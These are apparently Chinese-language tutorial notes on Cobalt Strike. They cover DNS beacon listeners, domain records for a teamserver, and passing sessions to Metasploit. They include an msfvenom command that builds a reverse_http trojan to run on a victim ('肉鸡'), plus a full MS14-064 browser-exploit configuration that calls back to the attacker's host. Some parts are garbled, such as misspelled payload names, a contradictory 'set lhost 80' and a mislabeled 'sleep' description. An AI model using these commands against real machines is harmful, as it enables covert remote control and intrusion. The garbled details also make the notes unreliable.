 **分类**

```
windows/beacon_dns.resrve_http(传输数据小)
beacon_dns/reserve_http（支持命令切换模式 mode dns)速度很慢，但非常隐蔽
beacon_dns/reserve_dns_txt(支持命令切换模式： mode dns_txt) 传输数据量更大，推荐使用
windows/beacon_dns/reverse_dns_txt（传输数据打）
```

域名创建a记录test.1377day.com指向teamserver

接着创建三个ns记录 分别为C1,C2,C3指向test.1377day.com

进入beacon 打开help

```
使用checkin命令来进入尝试数据连续返回，发一些基本信息回来
```

## 四、用户驱动攻击

```
sleep + 数字 调节屏幕暗的时间
```

## 五、派生会话

派生会话，选择好监听器，会选择执行，在选择ip的时候，选择的是新的主机的ip`192.168.0.134`但是beacons依然选择原来的teamserver，新建一个会话的监听。

1.派生会话（自身增加会话，或者给其他的teamserver）

2.派生metasploit会话

首先还是新建一个监听器，tcp/ip，选择`windows/foreign/reverse_tcp`这个payload，然后主机设置你的metasploit监听的端口，主机，确保一致，

4.metasplot生成木马与cobalt strike会话

```
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.0.104 LPORT=8808 -f exe > /tmp/shell1.exe
```

注意在添加监听器的时候，要选择http的监听模式，不要搞错了，这个很重要。这个就是host:192.168.0.104,port:8808的监听模式。

把msf生成的木马拿到肉鸡上去执行就会返回一个会话，也可以使用

5.metasploit使用溢出exp与cobalt strike会话

```
use exploit/windows/browser/ms14_064_ole_code_execution
set srvhost 192.168.0.134 这是teamserver
set SRVPORT 80
set payload windows/meterpreter/reverse_http
set LHOST 192.168.0.104 本地监听的localhost，就是黑客电脑
set lport 8888
set disablepayloadhandler True
set PrependMigrate true
set lhost 80
exploit
```
